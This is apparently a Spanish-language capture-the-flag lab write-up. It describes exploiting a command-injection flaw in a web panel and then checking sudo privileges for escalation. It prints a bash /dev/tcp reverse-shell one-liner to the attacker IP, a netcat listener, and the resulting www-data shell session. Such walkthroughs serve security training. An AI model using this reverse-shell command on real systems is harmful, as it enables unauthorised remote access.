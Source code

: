```bash
* ***** ****
```

## Explotación

---

### Command Injection

Dado que el panel de comandos tiene limitaciones en cuanto al uso de múltiples comandos, decidimos aprovechar la vulnerabilidad presente en la aplicación web: [Command Injection](https://owasp.org/www-community/attacks/Command_Injection). La inyección de comandos es un ataque en el que el objetivo es la ejecución de Comandos arbitrarios en el sistema operativo host a través de un aplicación. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema.

Bajo este contexto decidimos inyectar el siguiente comando simple que nos genere una reverse shell hacia nuestro equipo atacante.

```bash
bash -c "bash -i >& /dev/tcp/10.2.11.100/443 0>&1"
```

Antes de ejecutar el comando, es necesario ponerse a la escucha en el puerto especificado para recibir la shell como usuario `www-data`.

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.116.102] 49586
bash: cannot set terminal process group (1347): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-116-102:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalación de privilegios

---

Después de obtener una shell en la máquina, nuestro objetivo es elevar nuestros privilegios y obtener acceso como usuario `root`. Una buena practica es listar los privilegios que tiene el usuario actual para ejecutar comandos con `sudo`.

```bash
www-data@ip-10-10-116-102:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-116-102.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-116-102.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
